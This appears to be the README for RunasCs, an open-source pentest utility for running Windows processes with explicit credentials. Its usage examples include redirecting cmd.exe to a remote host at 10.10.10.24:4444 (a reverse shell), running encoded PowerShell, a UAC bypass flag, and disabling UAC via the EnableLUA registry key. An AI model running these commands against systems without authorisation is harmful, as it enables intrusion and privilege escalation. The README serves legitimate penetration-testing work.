 ### RunasCs

----

*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved (from a pentest perspective) and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, i.e. network cleartext logon 8 (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasCs* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUser()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
C:\ProgramData>.\RunasCs_net2.exe --help

RunasCs v1.3 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--create-profile]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and crateProcess functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     command supported by cmd.exe if process_timeout>0
                            commandline for the process if process_timeout=0
Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserA
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the spawned process.
                            Default: "8"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process timeout to 0.
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and cmd.exe
                            won't be used to spawn the process.
                            Default: "120000"
    -p, --create-profile
                            if this flag is specified RunasCs will force the
                            creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            NOTE: this will leave some forensics traces
                            behind creating the user profile directory.
                            Compatible only with -f flags:
                                1 - CreateProcessWithTokenW
                                2 - CreateProcessWithLogonW
    -b, --bypass-uac     
                            if this flag is specified RunasCs will try a UAC
                            bypass to spawn a process without token limitation
                            (not filtered).

Examples:
    Run a command as a specific local user
        RunasCs.exe user1 password1 whoami
    Run a command as a specific domain user and interactive logon type (2)
        RunasCs.exe user1 password1 whoami -d domain -l 2
    Run a background/async process as a specific local user,
        RunasCs.exe user1 password1 "%COMSPEC% powershell -enc..." -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.24:4444
    Run a command simulating the /netonly flag of runas.exe
        RunasCs.exe user1 password1 whoami -d domain -l 9
    Run a command as an Administrator bypassing UAC
        RunasCs.exe adm1 password1 "whoami /all" --bypass-uac
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 8 (*NetworkCleartext*). 

**NetworkCleartext** logon type is the one with widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package.

If you set *Interactive* (2) logon type you will face some *UAC* restriction problems.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtered limitation.

By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process and will use
``cmd.exe`` to manage *stdout* and *stderr*. If you need to spawn a background or async process, i.e. spawning a reverse shell,
you need to set the parameter ``-t timeout`` to ``0``. In this case the process will be spawned without using ``cmd.exe``
and *RunasCs* won't wait for the end of the execution.

### References

----

* https://decoder.cloud/2018/01/13/potato-and-tokens/
* https://github.com/dahall/Vanara
* https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85)
* https://support.microsoft.com/en-us/help/190351/how-to-spawn-console-processes-with-redirected-standard-handles
* https://support.microsoft.com/en-us/help/327618/security-services-and-the-interactive-desktop-in-windows
* https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/


### Credits

-----

* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
* [@winlogon0](https://twitter.com/winlogon0)